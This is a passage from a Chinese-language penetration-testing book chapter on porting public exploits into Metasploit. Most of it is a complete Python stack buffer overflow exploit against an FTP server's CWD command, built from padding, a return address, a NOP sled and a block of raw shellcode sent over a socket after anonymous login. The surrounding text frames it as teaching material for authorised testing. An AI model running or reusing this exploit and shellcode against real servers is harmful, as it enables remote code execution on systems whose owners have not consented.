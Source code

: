# 第十四章：移植利用

在前一章中，我们讨论了如何在 Metasploit 中编写利用。然而，在已经有公开利用的情况下，我们不需要为特定软件创建利用。公开可用的利用可能是 Perl、Python、C 或其他不同编程语言中的。现在让我们发现一些将利用移植到 Metasploit 框架中的策略。这种机制使我们能够将现有利用转换为与 Metasploit 兼容的利用，从而节省时间并使我们能够随时切换有效载荷。在本章结束时，我们将了解以下主题：

+   从各种编程语言移植利用

+   从独立利用中发现基本要素

+   从现有独立扫描器/工具脚本创建 Metasploit 模块

如果我们能够找出现有利用中哪些基本要素可以在 Metasploit 中使用，那么将脚本移植到 Metasploit 框架中就是一项简单的工作。

将利用移植到 Metasploit 的这一想法通过使独立脚本能够在广泛的网络上运行而不仅仅是单个系统上，从而节省时间。此外，由于每个利用都可以从 Metasploit 中访问，这使得渗透测试更有组织性。让我们了解如何在即将到来的章节中使用 Metasploit 实现可移植性。

# 导入基于堆栈的缓冲区溢出利用

在即将到来的示例中，我们将看到如何将用 Python 编写的利用导入 Metasploit。公开可用的利用可以从以下网址下载：[`www.exploit-db.com/exploits/31255/`](https://www.exploit-db.com/exploits/31255/)。让我们按照以下方式分析利用：

```
import socket as s 
from sys import argv 

host = "127.0.0.1" 
fuser = "anonymous" 
fpass = "anonymous" 
junk = '\x41' * 2008 
espaddress = '\x72\x93\xab\x71' 
nops = 'x90' * 10 
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1"
"\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e"
"\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23"
"\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d"
"\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5"
"\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07"
"\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c"
"\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13"
"\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3"
"\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74"
"\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0"
"\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63"
"\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29"
"\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14"
"\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02"
 "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```
